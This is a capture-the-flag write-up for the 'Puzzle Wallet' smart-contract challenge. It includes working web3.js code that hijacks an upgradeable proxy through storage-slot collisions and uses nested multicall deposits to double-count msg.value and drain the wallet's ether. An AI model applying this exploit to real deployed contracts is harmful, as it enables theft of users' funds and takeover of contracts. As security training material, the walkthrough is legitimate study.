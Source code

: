 # Puzzle Wallet

# Problem Statement
```
Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

You'll need to hijack this wallet to become the admin of the proxy.

Things that might help::
- Understanding how delegatecalls work and how msg.sender and msg.value behaves when performing one.
- Knowing about proxy patterns and the way they handle storage variables.
```

# Solution

## Part 1: Update `PuzzleWallet`'s `owner` and `PuzzleProxy`'s `pendingAdmin` With Your EOA Address
The main security hole is that there is no storage seperation between the proxy contract (`PuzzleProxy`) and delegated contract (`PuzzleWallet`). So there is a storage collision between the `PuzzleWallet`'s `owner` and `PuzzleProxy`'s `pendingAdmin` storage slot 0.

The web3js library doesn't expose the `PuzzleProxy`'s functions but they are available to call.
Prior to any storage mutating calls notice the `PuzzleWallet`'s `owner` and `PuzzleProxy`'s `pendingAdmin` are set to the lesson's instance address:
```
const proxyContractAbi = [
  {
    "constant":false,
    "inputs":[],
    "name":"pendingAdmin",
    "outputs":[
      {
        "name":"",
        "type":"address"
      }
    ],
    "payable":false,
    "stateMutability":"public",
    "type":"function"
  }
];
const proxyContract = new web3.eth.Contract(proxyContractAbi,contract.address);
await proxyContract.methods.pendingAdmin().call();

await contract.owner();
```

Now mutate `PuzzleWallet` contract's `owner` and `PuzzleProxy` contract's `pendingAdmin`:
```
const data = web3.eth.abi.encodeFunctionCall({
  name: "proposeNewAdmin",
  type: "function",
  inputs: [{
    type: 'address',
    name: '_newAdmin'
  }]
}, [player]);
await web3.eth.sendTransaction({ to: contract.address, from: player, data: data });
```

Now see that both the `owner` and the `pendingAdmin` are set to your `player` address:
```
await proxyContract.methods.pendingAdmin().call();

await contract.owner();
```

## Part 2: Update `PuzzleProxy`'s `admin` with your EOA address
Notice a similar storage security hole exists between the `PuzzleWallet`'s `maxBalance` and `PuzzleProxy`'s `admin` variables as they share the same slot 1.
Because of this hole, we have the aim of modifying the `maxBalance` with our address.
First we need access to the functions in `PuzzleWallet` so we can eventually modify `maxBalance`.
Since we are the `owner` of the `PuzzleWallet` contract, lets give us `onlyWhitelisted` access.
```
await contract.addToWhitelist(player)
```

We'll modify the `maxBalance` through `setMaxBalance`. In that method there is a require:
```
require(address(this).balance == 0, "Contract balance is not 0");
```
This requires the contract ether balance to be at 0. Check the ether balance:
```
await getBalance(contract.address); // returns '0.001'
```
Now we need to figure a way to get the `PuzzleProxy`'s contract's balance to `0`. `execute` is a way to reduce the balance but follows the `Checks-Effects-Interactions` `(CIE)` pattern so there is no way to run a re-entrancy attack on it.<br>
So now we know we have to call `deposit` first to make sure we have a balance to call `execute` since it is the only methond that can possibly reduce the contract balance.<br>
We also know the `execute` follows the `CIE` pattern so we can't run an attack on it.<br>
Lets look at the last function, `multicall`, that has a possibility of helping us with our goal.<br>
Notice it allows for multiple function calls to `this` `PuzzleWallet` contract:
```
for (uint256 i = 0; i < data.length; i++) {
```
Ugh, it only allows 1 deposit call per transaction because of the `depositCalled` bool flag and this line:
```
require(!depositCalled, "Deposit can only be called once");
```
We only find a solution by thinking more deeply and in a recursive way. How about we have the `multicall` function call `multicall` multiple times? And, in each of these nested `multicall` calls, we can call `deposit` once thereby removing the restriction on the number of `deposit` calls we can make.<br>
We want the contract's balance to reach `0` ether, and `execute` only allows us to withdraw ether if we have a greater amount in the `balances[msg.sender]` map:
```
require(balances[msg.sender] >= value, "Insufficient balance");
```
Remember the contract currently has an ether balance of `0.001`. If we call the `deposit` function it will increase both the `balances[msg.sender]` as well as the smart contract's ether balance so if we call `deposit` we'll always have a `balances[msg.sender]` that is less than the contract's ether `balance`. This is a problem because then we'll never get to our goal of getting the contract's ether balance to `0`.
Because of this we'll need to mess with the accounting to get to the goal of having a greater `balances[msg.sender]` value than the contract's actual ether balance.<br>
We can do this by making 2 `deposit` calls that set the contract's balance from the current `0.001` to `0.002` while also changing our `balances[msg.sender]` from `0` to `0.002`. When you call `multicall` with a `value` of `0.001` you are only sending `0.001` ether and that value is stored in `msg.value` as `0.001`. Because we are making 2 `deposit` calls this will update the `balances[msg.sender]` from `0` to `0.002` while only adding to the contract's ether balance `0.001` thereby having the contract's balance go from the original `0.001` to `0.002`.<br>
The implementation:
```
const depositData = web3.eth.abi.encodeFunctionSignature("deposit()")
const multicallData = web3.eth.abi.encodeFunctionCall({
  name: 'multicall',
  type: 'function',
  inputs: [{
    type: 'bytes[]',
    name: 'data'
  }]
}, [[depositData]])
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
```
Notice the contract's ether balance is now at our desired stepping stone value of `0.002`:
```
await getBalance(contract.address)
```
Now call the `execute` method to set the contract ether balance to `0`:
```
await contract.execute(player, toWei('0.002'), player)
```
Notice the contract's ether balance is now at our desired final value of `0`:
```
await getBalance(contract.address)
```
Finally take ownership of the `PuzzleWallet` contract:
```
await contract.setMaxBalance(player)
```
We've completed this lesson!

# Key Learnings
- With batching calls / multicalls be very careful about the `msg.value` as it is the static eth value for the entire call.
